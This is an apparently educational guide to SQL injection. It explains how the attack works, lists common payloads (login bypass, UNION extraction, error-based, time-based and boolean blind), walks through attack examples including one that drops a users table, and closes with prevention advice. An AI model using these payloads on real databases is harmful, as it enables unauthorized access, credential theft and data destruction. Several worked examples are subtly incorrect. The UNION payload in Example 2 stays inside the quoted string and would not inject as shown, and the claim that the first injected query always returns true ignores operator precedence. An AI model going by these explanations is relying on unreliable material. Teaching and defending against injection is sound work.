 ## Understanding SQL Injection

SQL Injection (SQLi) is a code injection technique that exploits vulnerabilities in an application's software by manipulating SQL queries. Attackers can gain unauthorized access to a database, retrieve sensitive data, or even modify or delete data. This vulnerability typically arises when user input is improperly sanitized before being included in SQL statements.

### How SQL Injection Works

When an application constructs SQL queries using user input without proper validation or escaping, an attacker can input malicious SQL code. This code is then executed by the database, leading to unintended actions.

For example, consider a simple SQL query that checks for a user’s credentials:

```sql
SELECT * FROM users WHERE username = 'user' AND password = 'pass';
```

If an attacker inputs the following for the username:

```
user' OR '1'='1
```

The resulting query becomes:

```sql
SELECT * FROM users WHERE username = 'user' OR '1'='1' AND password = 'pass';
```

This query will always return true, allowing the attacker to bypass authentication.

<hr>

## Common SQL Injection Payloads

Here are some common SQL injection payloads that attackers might use:

### 1. Bypassing Authentication

- **Payload**: `' OR '1'='1' -- `
- **Description**: This payload can be used to bypass login forms by making the condition always true.

### 2. Union-Based SQL Injection

- **Payload**: `1 UNION SELECT username, password FROM users -- `
- **Description**: This payload attempts to combine the results of two queries, allowing the attacker to retrieve data from another table.

### 3. Error-Based SQL Injection

- **Payload**: `1' AND 1=CONVERT(int, (SELECT @@version)) -- `
- **Description**: This payload can be used to extract database version information by causing an error that reveals details about the database.

### 4. Time-Based Blind SQL Injection

- **Payload**: `1' WAITFOR DELAY '00:00:10' -- `
- **Description**: This payload causes the database to wait for a specified time, allowing the attacker to infer whether the query is true or false based on the response time.

### 5. Boolean-Based Blind SQL Injection

- **Payload**: `1' AND '1'='1' -- `
- **Description**: This payload checks if a condition is true. If the application behaves differently, the attacker can infer information about the database.

<hr>

## Examples of SQL Injection Attacks

### Example 1: Login Bypass

**Vulnerable Code:**

```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password';
```

**User Input:**

- Username: `admin' -- `
- Password: `anything`

**Resulting Query:**

```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'anything';
```

This query will return the admin user without needing a password.

### Example 2: Data Extraction

**Vulnerable Code:**

```sql
SELECT * FROM products WHERE id = '$product_id';
```

**User Input:**

- Product ID: `1 UNION SELECT username, password FROM users -- `

**Resulting Query:**

```sql
SELECT * FROM products WHERE id = '1 UNION SELECT username, password FROM users -- ';
```

This query will return product data along with usernames and passwords from the users table.

### Example 3: Dropping a Table

**Vulnerable Code:**

```sql
DELETE FROM users WHERE username = '$username';
```

**User Input:**

- Username: `admin'; DROP TABLE users; -- `

**Resulting Query:**

```sql
DELETE FROM users WHERE username = 'admin'; DROP TABLE users; -- ';
```

This query will delete the entire users table.

<hr>

## Prevention Techniques

To protect against SQL injection, consider the following best practices:

- **Use Prepared Statements**: Always use parameterized queries or prepared statements to separate SQL code from data.
- **Input Validation**: Validate and sanitize all user inputs to ensure they conform to expected formats.
- **Least Privilege Principle**: Limit database user permissions to only what is necessary for the application.
- **Web Application Firewalls (WAF)**: Implement WAFs to filter out malicious requests.
- **Regular Security Audits**: Conduct regular security assessments and code reviews to identify vulnerabilities.

By understanding SQL injection and implementing these preventive measures, you can significantly reduce the risk of such attacks on your applications.